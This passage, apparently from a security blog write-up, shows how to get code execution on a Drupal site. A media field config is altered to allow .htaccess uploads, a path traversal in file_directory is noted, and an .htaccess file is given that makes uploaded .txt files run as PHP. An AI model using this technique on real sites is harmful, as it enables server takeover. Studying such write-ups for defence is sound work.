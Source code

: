 ```
```

...

  file_directory: '[date:custom:Y]-[date:custom:m]'
  file_extensions: 'txt rtf doc docx ppt pptx xls xlsx pdf odf odg odp ods odt fodt fods fodp fodg key numbers pages'

...
```
```
![[../../../images/image (5) (1) (1) (1).png|]]


To:

File: field.field.media.document.field_media_document.yml

```
...

  file_directory: '[date:custom:Y]-[date:custom:m]'
  file_extensions: 'htaccess txt rtf doc docx ppt pptx xls xlsx pdf odf odg odp ods odt fodt fods fodp fodg key numbers pages'

...

```
```
> I don’t use it in this blogpost but it is noted that it is possible to define the entry `file_directory` in an arbitrary way and that it is vulnerable to a path traversal attack (so we can go back up within the Drupal filesystem tree).

![[../../../images/image (6) (1) (1) (1).png|]]


### Part 3 (leveraging feature _Add Document_) 

The last step is the simplest, and is broken down into two sub-steps. The first is to upload a file in .htaccess format to leverage the Apache directives and allow .txt files to be interpreted by the PHP engine. The second is to upload a .txt file containing our payload.

File: .htaccess

```
<Files *>
  SetHandler application/x-httpd-php
</Files>

# Vroum! Vroum!
# We reactivate PHP engines for all versions in order to be targetless.
<IfModule mod_php.c>
  php_flag engine on
</IfModule>
<IfModule mod_php7.c>
  php_flag engine on
</IfModule>
<IfModule mod_php5.c>
  php_flag engine on
</IfModule>
```
```
Why is this trick cool?
